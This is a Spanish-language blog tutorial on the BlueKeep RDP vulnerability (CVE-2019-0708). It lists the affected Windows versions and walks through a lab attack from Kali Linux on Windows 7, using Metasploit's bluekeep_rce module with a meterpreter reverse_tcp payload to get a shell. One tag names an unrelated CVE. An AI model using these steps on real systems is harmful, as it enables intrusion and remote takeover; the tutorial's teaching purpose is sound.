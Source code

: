 ```yaml
---
layout: single
title: Explotación de CVE-2019-0708 - Vulnerabilidades
excerpt: "la vulnerabilidad del servicio de escritorio remoto de Windows BlueKeep permite a los usuarios no autenticados realizar la ejecución remota de código."
date: 2023-08-25
classes: wide
header:
  teaser: /assets/images/vulnerabilidades/cve-2019-0708/cve-2019-0708.png
  teaser_home_page: true
  icon: /assets/images/rdp.webp
categories:
  - Vulnerabilidades
 
tags:  
  - cve-2022-46169
  - BlueKeep
  - RDP
  - Metasploit
  
---
```


![](/assets/images/vulnerabilidades/cve-2019-0708/cve-2019-0708.png)

## Descripción

Esta vulnerabilidad de ejecución remota de código afecta al Servicios de Escritorio Remoto (RDP), anteriormente conocidos como Terminal Server. Esta vulnerabilidad es de pre-autenticación y no requiere la interacción del usuario. En otras palabras, esta vulnerabilidad actúa como un Gusano, lo que significa que cualquier malware que explote el fallo podría propagarse rápidamente a otras máquinas vulnerables. Este caso es similar al malware WannaCry que se extendió por todo el mundo en el año 2017.

•	CVE: CVE-2019-0708

•	Factor de Riesgo: Alto

•	Valor CVSS Base: 9.8


## ¿Qué es BlueKeep?

BlueKeep es una vulnerabilidad de software que afecta a versiones antiguas de Microsoft Windows. El riesgo es significativo porque ataca el Protocolo de escritorio remoto (RDP) del sistema operativo, que permite conectar con otro ordenador a través de una conexión de red. De este modo, una ciberamenaza podría extenderse a gran velocidad. Se detectó por primera vez en mayo, en el Centro Nacional de Ciberseguridad del Reino Unido. Desde mediados de mayo de 2019.

## Productos Afectados:

•	Microsoft Windows 7 for 32-bit Systems SP1 

•	Microsoft Windows 7 for x64-based Systems SP1 

•	Microsoft Windows Server 2003

•	Microsoft Windows Server 2008 R2 for Itanium-based Systems SP1 

•	Microsoft Windows Server 2008 R2 for x64-based Systems SP1 

•	Microsoft Windows Server 2008 for 32-bit Systems SP2

•	Microsoft Windows Server 2008 for Itanium-based Systems SP2 

•	Microsoft Windows Server 2008 for x64-based Systems SP2 

•	Microsoft Windows XP

## Explotación:

Para esta demostración atacaremos desde un sistema operativo Kali Linux y como equipo víctima utilizaremos un sistema Windows 7.

•	Ejecutamos en la terminal msfconsole para ejecutar Metasploit

![](/assets/images/vulnerabilidades/cve-2019-0708/cve-2019-07081.png)

•	use exploit/windows/rdp/cve_2019_0708_bluekeep_rce

![](/assets/images/vulnerabilidades/cve-2019-0708/cve-2019-07082.png)

•	set PAYLOAD windows/x64/meterpreter/reverse_tcp

![](/assets/images/vulnerabilidades/cve-2019-0708/cve-2019-07083.png)

•	set RHOSTS <dirección IP de la víctima> (x64 Windows 7 o 2008 R2)

![](/assets/images/vulnerabilidades/cve-2019-0708/cve-2019-07084.png)

•	set TARGET a un objetivo más específico basado en su entorno

![](/assets/images/vulnerabilidades/cve-2019-0708/cve-2019-07085.png)

Comprobemos que tenemos Shell.

![](/assets/images/vulnerabilidades/cve-2019-0708/cve-2019-07086.png)
